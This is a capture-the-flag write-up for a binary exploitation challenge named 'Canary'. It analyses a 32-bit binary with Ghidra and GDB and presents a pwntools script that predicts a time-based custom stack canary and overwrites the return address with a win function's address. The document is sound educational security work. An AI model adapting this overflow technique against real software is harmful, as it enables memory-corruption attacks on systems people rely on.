






---
title: "CWE Challenge - Canary"
author: Michael Mendoza
date: "2023-01-15"
subject: "Binary Exploitation"
keywords: [CTF, binary exploitation, Screening]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/canary.jpeg"
...

# Information Gathering

Lets first take a look at the binary.

```
lilbits@ubuntu:~/Documents/Challenges/Pwn/Canary$ file canary
canary: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=0288607cfa429a1829ea8e0b712545b0d5fa32fe, for GNU/Linux 3.2.0, with debug_info, not stripped
lilbits@ubuntu:~/Documents/Challenges/Pwn/Canary$ checksec canary
[*] '/home/lilbits/Documents/Challenges/Pwn/Canary/canary'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
We can see that this is a 32-bit executable with NX enabled. We can also see that the stack canary is not enabled even though the name of the challenge suggests that we should be bypassing the canary.

## Ghidra Decompilation


\ **Figure 1:** Main Function

As seen in the main function, the command "date +%s" is ran and saved to the file pointer local_14. fgets is used to save the first 12 characters to the character array local_20. Afterwards, a global variable is created, this is the creation of the canary. The command used to create the canary is 'strtol' which converts the charater array of the numbers read in into an integer base 10.

After this variable is created, the value is passed to a function called read_in. Looking into the read_in function,


\ **Figure 2:** read_in Function

We can see theres a read function that allows the user to save 0x90 bytes to the buffer which can only hold 44 bytes of data. This is where the buffer overflow vulnerability occurs. Following this, there is a conditional statement where the custom canary is being tested to make sure the buffer overflow does not occur.


\ **Figure 3:** read_in Function

We can see from this side of Ghidra, that the check variable is at an offset of 0x10 while the user buf is at an offset of 0x3c. This can be confirmed by running the program in GDB. We can also see the win function that cats the flag once we overwrite the instruction pointer. This is good since NX is enabled, preventing us from executing shell code on the stack.

## Debugging with GDB (GEF)

After running the process in GDB, we Dissasemble the read_in function and set a break point after the read function is called. This allows us to see what the offset is from the user input to the instruction pointer.


\ **Figure 4:** Breakpoint 1


\ **Figure 5:** Finding the Offset

Here we can see that the user input starts at 0xffffd0a0 and the eip is at 0xffffd0dc. Doing some quick math, the offset is 0x3c, which was shown in Ghidra. Since the offset of the check variable was 0x10, we can get the offset from the user input to the custom Canary by subtracting 0x3c by 0x10, which is 0x2c.

So now that we know how the Canary is made and the offset to the canary check, we can create our exploit.

# Exploitation

## Python Script
In our python script, subprocess was imported so that we can run the same command to create the canary and save it to a variable. This will allow us to bypass the canary check and overwrite the instruction pointer with the address to the win function. 

```python
#! /usr/bin/env python3

from pwn import *

import subprocess as sp

target = process('./canary')

#create the date variable using the same command that created the Canary
date = sp.getoutput('date +%s')

#change the date to base 10 integer
date = int(date, 10)


log.info(f'canary value => {hex(date)}')


#create the 2 buffers

# 1st buffer (0x3c - 0x10) buffer from the user input to the canary variable
buffer = 0x2c 

# 2nd buffer (0x3c - (0x2c + 0x4)) buffer from the check variable to the instruction pointer Note: the canary value is 4 bytes which is why its added to the initial buffer of 0x2c before being subtracted by the total offset 0x3c.
buffer2 = 0xc 


payload = buffer * b'A'
payload += p32(date)
payload += buffer2 * b'A'
payload += p32(0x08049296) #address to the win function

target.sendline(payload)

target.interactive()
```

## Flag

\ **Figure 4:** Running the Exploit

# Conclusion
Overall, I really enjoyed how different this challenge was to the other binary exploitation challenges. Finding the offset to the canary and overwriting the instruction pointer were easy to me at this point. Figuring out how the Canary was created and being able to recreate it was the challenging part.

# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
2. [https://www.tutorialspoint.com/c_standard_library/c_function_strtol.htm](https://www.tutorialspoint.com/c_standard_library/c_function_strtol.htm)
3. [https://www.tutorialspoint.com/c_standard_library/c_function_fgets.htm](https://www.tutorialspoint.com/c_standard_library/c_function_fgets.htm)
4. [https://stackabuse.com/executing-shell-commands-with-python/](https://stackabuse.com/executing-shell-commands-with-python/)
